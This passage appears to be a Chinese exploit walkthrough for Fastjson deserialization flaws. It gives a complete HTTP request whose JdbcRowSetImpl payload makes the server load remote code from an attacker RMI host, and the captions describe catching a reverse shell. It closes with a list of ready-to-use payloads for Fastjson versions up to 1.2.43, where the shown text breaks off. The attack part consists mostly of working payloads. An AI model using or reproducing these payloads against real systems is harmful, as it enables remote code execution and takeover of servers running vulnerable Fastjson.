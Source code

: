rmi 整理  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVDD7z4PJ5P8WxndiaeFFLjZuxYwzmN0wPHXlJwib1dMGcdUhf2MPvGMicQ/640?wx_fmt=png)

```
POST /fastjson-1.2.47/ HTTP/1.1
Host: 192.168.0.104:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3494.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 274


{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "rmi://192.168.0.104:9999/Exploit", 
        "autoCommit": true
    }
}
```

执行发送 exp.class  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKV5e6ldqwOcFSRNtfU4GohPic9QbbM0syOnFIZ5t2GYdpH6aNdK34flaQ/640?wx_fmt=png)

rmi 整理

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKV99jOd7o3x4Ec65j1V6ic4ic6FjXCvODFeibQVvuzp2MibpMeUxc9iapR1jQ/640?wx_fmt=png)

监听反弹 shell

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVSct2VXMOjYBoy4FyFmBbsbhZiagbasicnf4vVwAgyeY2NB79D09bMpaw/640?wx_fmt=png)

获取到 shell

idea 去调试启动计算器  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVuLeZVnhkw1kzyZnEWXAhrMClpD7Etib7uuL7UokhJaMfQKVhr7GQ8Xg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKV6icaicBVF6QpfbrxjesfTQqRcl90TpEq1cng9nIHl86CPcWvN6uMZWdg/640?wx_fmt=png)

各版本的 EXP：  

```
fastjson<=1.2.24
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:1099/exp", "autoCommit":true}

fastjson<=1.2.41
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://x.x.x.x:1099/exp", "autoCommit":true}

fastjson<=1.2.42
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://x.x.x.x:1099/exp", "autoCommit":true}

fastjson<=1.2.43
```